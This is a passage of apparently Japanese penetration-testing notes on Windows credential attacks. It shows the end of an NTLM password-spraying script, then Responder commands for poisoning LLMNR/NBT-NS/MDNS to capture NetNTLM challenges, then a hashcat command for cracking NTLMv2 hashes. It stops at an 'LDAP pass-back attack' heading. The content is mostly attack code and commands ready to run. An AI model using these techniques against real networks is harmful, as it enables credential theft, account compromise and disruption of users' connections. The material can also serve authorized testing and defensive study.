```python

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])

```

### NetNTLM チャレンジの傍受

この操作は、通常のネットワーク試行が失敗するようになり混乱を引き起こす（意図したホストや共有に接続できなくなる）ため、使用には注意が必要。

Responder（LLMNR、NBT-NS、および MDNS ポイズナー）

https://github.com/lgandx/Responder

NIC を指定して傍受を開始

```shell
sudo responder -I <network-if>
```

NTLMv2-SSP ハッシュのクラック

```shell
hashcat -m 5600 <hash file> <password file> --force
```

## LDAP

### LDAP パスバック攻撃
